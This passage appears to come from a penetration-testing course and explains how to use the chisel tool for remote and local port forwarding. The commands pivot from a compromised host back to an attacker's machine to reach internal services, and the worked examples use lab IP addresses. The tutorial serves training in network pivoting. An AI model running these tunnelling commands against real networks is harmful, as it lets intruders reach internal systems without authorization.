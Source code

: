 Now that we've seen how to use chisel to create a SOCKS proxy, let's take a look at using it to create a port forward with chisel.

## Remote Port Forward:

A remote port forward is when we connect back from a compromised target to create the forward.

For a remote port forward, on our attacking machine we use the exact same command as before:
```
./chisel server -p LISTEN_PORT --reverse &
```
Once again this sets up a chisel listener for the compromised host to connect back to.
The command to connect back is slightly different this time, however:
```
./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
```
You may recognise this as being very similar to the SSH reverse port forward method, where we specify the local port to open, the target IP, and the target port, separated by colons. Note the distinction between the LISTEN_PORT and the LOCAL_PORT. Here the LISTEN_PORT is the port that we started the chisel server on, and the LOCAL_PORT is the port we wish to open on our own attacking machine to link with the desired target port.

To use an old example, let's assume that our own IP is 172.16.0.20, the compromised server's IP is 172.16.0.5, and our target is port 22 on 172.16.0.10. The syntax for forwarding 172.16.0.10:22 back to port 2222 on our attacking machine would be as follows:
```
./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &
```
Connecting back to our attacking machine, functioning as a chisel server started with:
```
./chisel server -p 1337 --reverse &
```
This would allow us to access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222.

## Local Port Forward:

As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

On the compromised target we set up a chisel server:
```

./chisel server -p LISTEN_PORT

```
We now connect to this from our attacking machine like so:
```
./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
```

For example, to connect to 172.16.0.5:8000 (the compromised host running a chisel server), forwarding our local port 2222 to 172.16.0.10:22 (our intended target), we could use:
```
./chisel client 172.16.0.5:8000 2222:172.16.0.10:22

```
